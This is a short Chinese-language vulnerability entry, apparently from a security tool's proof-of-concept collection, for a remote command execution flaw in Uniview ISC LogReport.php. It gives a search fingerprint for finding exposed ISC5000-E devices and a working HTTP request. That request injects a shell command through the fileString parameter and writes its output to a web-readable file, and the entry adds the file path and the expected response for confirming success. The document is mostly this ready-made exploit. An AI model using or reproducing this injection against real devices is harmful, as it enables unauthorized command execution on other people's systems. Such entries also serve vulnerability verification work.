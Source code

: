 ﻿# 浙江宇视科技 ISC LogReport.php 远程命令执行漏洞

> 更新时间：2024-01-15

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：title=="ISC5000-E"

> 验证脚本：HTTP

```
GET /Interface/LogReport/LogReport.php?action=execUpdate&fileString=x%3bid%3edudesuite.txt HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：/Interface/LogReport/dudesuite.txt


> 验证文件来源：Dude Suite Web Security Tools - https://www.dudesuite.cn - 转载请注明出处
